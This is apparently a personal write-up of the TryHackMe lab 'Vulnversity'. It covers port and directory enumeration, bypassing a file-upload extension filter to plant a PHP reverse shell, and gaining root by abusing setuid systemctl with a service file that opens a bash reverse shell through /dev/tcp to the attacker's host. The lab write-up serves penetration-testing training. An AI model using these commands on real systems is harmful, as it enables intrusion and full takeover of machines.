 *2021-08-24*

*kimm3*

# Walkthrough: Vulnversity
Platform: TryHackMe

Difficulty: Easy

- [Link](https://tryhackme.com/room/vulnversity)

As this is a room on TryHackMe I don't explore every single possibility, I awnser the questions and move on. I won't post any awnsers here or even refer to them - just showing how to hack the box, as intended.
## Setup
![ll](assets/markdown-img-paste-20210825123945244.png)

## Scans and enumeration
```
script history/vulnversity_enumeration.txt
export IP=10.10.115.128
ping $IP
sudo nmap $IP -p- -Pn -A -oA scans/nmap-init
```
![init-scan-ports](assets/markdown-img-paste-20210825125747822.png)

### http:3333
![vuln-index-3333](assets/markdown-img-paste-20210825125923677.png)

Vulnversity site with a bunch of links that dosen't lead anywhere.

`ffuf -u "http://10.10.115.128:3333/FUZZ" -w sl/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -of md -o scans/ffuf-dir-p3333`

![ffuf-dir-p3333](assets/markdown-img-paste-20210825130406151.png)

'internal' is not a standard folder.

![internal](assets/markdown-img-paste-20210825130445381.png)

Let's try to upload something.

`touch upload/test`

![ext-not-allowed](assets/markdown-img-paste-20210825141320500.png)

Ok, let's try find an extension that works using Burpe.

![request](assets/markdown-img-paste-20210825141649236.png)

Intercept the request and press CTRL+I to send it to intruder.

![position](assets/markdown-img-paste-2021082514182730.png)

Set position at end of filename.

![payload](assets/markdown-img-paste-20210825141912358.png)

Load SecLists 'web-extensions.txt'.

![payload-encode](assets/markdown-img-paste-20210825141944524.png)

Turn off the URL encoding, or at least remove the dot so that it dosen't mess with the filename.

![filter](assets/markdown-img-paste-20210825142141733.png)

Filter by length to get the one that stands out.

![phtmlsuccess](assets/markdown-img-paste-20210825142210644.png)

So it accept '.phtml'-files and the site is a .php-site, let's try to get a php reverse shell working.

## Foothold
Search for php in `/usr/share/` in kali to get the shell I used.

```
cp tools/php-reverse-shell.php upload/mashell.phtml
vim upload/mashell.phtml
# Change to your tunnel IP, and check port
nc -lvnp 1234
curl "http://10.10.115.128:3333/internal/mashell.phtml"
```

The upload succeeds and I try to curl the file in the same dir but nothing is found.

`ffuf -u "http://10.10.115.128:3333/internal/FUZZ" -w sl/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -of md -o scans/ffuf-dir-internal`

![uploads](assets/markdown-img-paste-20210825143422812.png)

Worth a shot.

`curl "http://10.10.115.128:3333/internal/uploads/mashell.phtml"`

![foothold](assets/markdown-img-paste-20210825143530173.png)

Success.

![billflag](assets/markdown-img-paste-20210825143911841.png)

## Privilege Escalation
Search for all setUID files.

`find / -perm -4000 -exec ls -ldb {} \; 2>/dev/null`

![systemctl](assets/markdown-img-paste-20210825144051251.png)

'systemctl' is usually reserved for root only. We can use this to start and stop services on the machine. We can also create our own service that elevates us to root via a reverse shell.

```
[Unit]
Description=pleaseElevate

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.8.210.115/1336 0>&1'

[Install]
WantedBy=multi-user.target
```

I created this service-file on my machine and started the python 'http.server'.

```
cd /tmp
curl "http://10.8.210.115/thisroot.service" > thisroot.service
chmod 777 thisroot.service
systemctl enable /tmp/thisroot.service
systemctl start thisroot
```

![roottxt](assets/markdown-img-paste-20210825150330867.png)
